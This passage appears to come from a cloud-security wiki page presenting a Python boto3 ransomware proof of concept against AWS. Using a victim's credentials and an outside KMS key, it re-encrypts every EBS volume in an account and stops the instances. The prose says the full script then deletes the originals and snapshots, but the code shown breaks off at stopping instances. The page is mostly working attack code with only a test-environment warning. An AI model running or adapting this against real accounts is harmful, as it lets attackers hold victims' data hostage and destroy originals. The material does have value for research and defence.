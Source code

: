 ![Pasted image 20231231174322](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/73456c22-0828-4da9-a737-e4d90fa3f514) ![Pasted image 20231231174352](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/4d83a90e-6fa9-4003-b904-a4ba7f5944d0)

This the python script used. It takes AWS creds for a 'victim' account and a publicly available AWS ARN value for the key to be used for encryption. The script will make encrypted copies of ALL available EBS volumes attached to ALL EC2 instances in the targeted AWS account, then stop every EC2 instance, detach the original EBS volumes, delete them, and finally delete all the snapshots utilized during the process. This will leave only encrypted EBS volumes in the targeted 'victim' account. ONLY USE THIS SCRIPT IN A TEST ENVIRONMENT, IT IS DESTRUCTIVE AND WILL DELETE ALL THE ORIGINAL EBS VOLUMES. You can recover them using the utilized KMS key and restore them to their original state via snapshots, but just want to make you aware that this is a ransomware PoC at the end of the day.

```
import boto3
import argparse
from botocore.exceptions import ClientError

def enumerate_ec2_instances(ec2_client):
    instances = ec2_client.describe_instances()
    instance_volumes = {}
    for reservation in instances['Reservations']:
        for instance in reservation['Instances']:
            instance_id = instance['InstanceId']
            volumes = [vol['Ebs']['VolumeId'] for vol in instance['BlockDeviceMappings'] if 'Ebs' in vol]
            instance_volumes[instance_id] = volumes
    return instance_volumes

def snapshot_volumes(ec2_client, volumes):
    snapshot_ids = []
    for volume_id in volumes:
        snapshot = ec2_client.create_snapshot(VolumeId=volume_id)
        snapshot_ids.append(snapshot['SnapshotId'])
    return snapshot_ids

def wait_for_snapshots(ec2_client, snapshot_ids):
    for snapshot_id in snapshot_ids:
        ec2_client.get_waiter('snapshot_completed').wait(SnapshotIds=[snapshot_id])

def create_encrypted_volumes(ec2_client, snapshot_ids, kms_key_arn):
    new_volume_ids = []
    for snapshot_id in snapshot_ids:
        snapshot_info = ec2_client.describe_snapshots(SnapshotIds=[snapshot_id])['Snapshots'][0]
        volume_id = snapshot_info['VolumeId']
        volume_info = ec2_client.describe_volumes(VolumeIds=[volume_id])['Volumes'][0]
        availability_zone = volume_info['AvailabilityZone']

        volume = ec2_client.create_volume(SnapshotId=snapshot_id, AvailabilityZone=availability_zone,
                                          Encrypted=True, KmsKeyId=kms_key_arn)
        new_volume_ids.append(volume['VolumeId'])
    return new_volume_ids

def stop_instances(ec2_client, instance_ids):
    for instance_id in instance_ids:
        try:
            instance_description = ec2_client.describe_instances(InstanceIds=[instance_id])
            instance_state = instance_description['Reservations'][0]['Instances'][0]['State']['Name']

            if instance_state == 'running':
                ec2_client.stop_instances(InstanceIds=[instance_id])
                print(f"Stopping instance: {instance_id}")
                ec2_client.get_waiter('instance_stopped').wait(InstanceIds=[instance_id])
                print(f"Instance {instance_id} stopped.")
```